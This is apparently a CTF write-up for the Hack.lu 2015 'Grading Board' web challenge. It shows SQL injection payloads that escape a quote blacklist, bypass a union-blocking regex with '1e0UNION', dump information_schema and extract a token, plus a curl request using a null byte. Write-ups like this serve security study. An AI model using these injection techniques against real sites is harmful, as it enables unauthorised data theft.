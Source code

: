 #Hack.lu 2015 Grading Board [web] 300

#Problem
You are sitting in your computer science class and are already done with your assignment (well, who would have guessed that). But you know that even though you did a perfect job (obviously) your teacher will give you a shitty grade because he can't stand your face.<br>
Well well well, it is time to put your skills on the table and show that son of a ... (you know the word I am looking for)... who the boss is. Thanks to the Ashley Madison dump and the stupidity of your teacher (seriously, how can he even teach the class...) you got the login credentials to the grading board.<br>
But, unlucky for you, your shithead of class mate found a vulnerability inside the website and went all whitehat on that shit and reported it (believe me I know ....in a different world...), he was also tasked to improve the security of the system.<br>
Fortunately for you, he left his phone unlocked and unattended, which allowed you to forward yourself the email containing the patch for the website, .... end to end encryption out of the window right there....,<br>
Alright son, get your shit together and let's get cracking<br>

Here is the [patch](https://school.fluxfingers.net/static/chals/patch_953dc87b784435d237b33a4f2fc20612.diff)!
And the [Website](https://school.fluxfingers.net:1506/)

The login credentials are:<br>
Username: kdavis<br>
Password: trolo!Fool<br>

##Solution
The website is divided into two parts: search and login.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/1.png)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/2.png)

The account for signing in is given in the problem description. After login, the website will ask for token.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/3.png)

After taking a look at the patch file, I saw following sql code:
<pre>
<code>
select id, first\_name, last\_name from students
WHERE first\_name='$name'
   OR last\_name='$name' ORDER BY id ASC LIMIT 5;
</code>
</pre>

And the blacklist replaced **'**, **"**, **/** and * , So it was possible to use '**#\**' to escape the single quote. The SQL syntax would become:
<pre>
<code>
select id, first\_name, last\_name from students
            WHERE first_name='<SQLi>#\' OR last_name='<SQLi>#\' ORDER BY id ASC LIMIT 5;
</code>
</pre>

After trying "**OR 1=1 #\**" as input, the SQLi worked.
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/4.png)

Also, the patch tried to disable union SQLi by regex: [^a-zA-Z0-9\_]union[^a-zA-Z0-9\_]<br>
But we still have some ways to bypass the limitation.<br>
[Union Bypass Reference](https://github.com/client9/libinjection/blob/master/data/sqli-rsalgado-bhusa2013.txt)<br>
In the reference, it showed that SQL syntax still worked with content "OR 1=1**e0**Union...". We could use this trick to bypass the above limitation.

In the patch, it told us how the table name was generated and all the column names we had in the table, but it was also easy to use information\_schema to get all the information we needed. Just entered following input:
<pre><code>
AND 1=1e0UNION SELECT table\_schema, table\_name, column\_name FROM information\_schema.columns#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/5.png)<br>
The table name and column name were there!

And then we entered following input:
<pre><code>
AND 1=1e0UNION SELECT 1, 2, token FROM t608f2cde509866e#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/6.png)

After summiting the token, I got the flag. :)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/flag.png)

<br>
Note:<br>
It's also able to bypass the limit of "LIMIT 5" by using null byte. We can modify our input as following and use curl to send our post request:
<pre><code>
curl -X POST --data "name=AND 1=1e0union select table\_schema, table\_name, column\_name FROM information\_schema.columns;%00\&site=default&action=search" https://school.fluxfingers.net:1506/
</code></pre>
And you can get the whole results instead of 5 columns only.

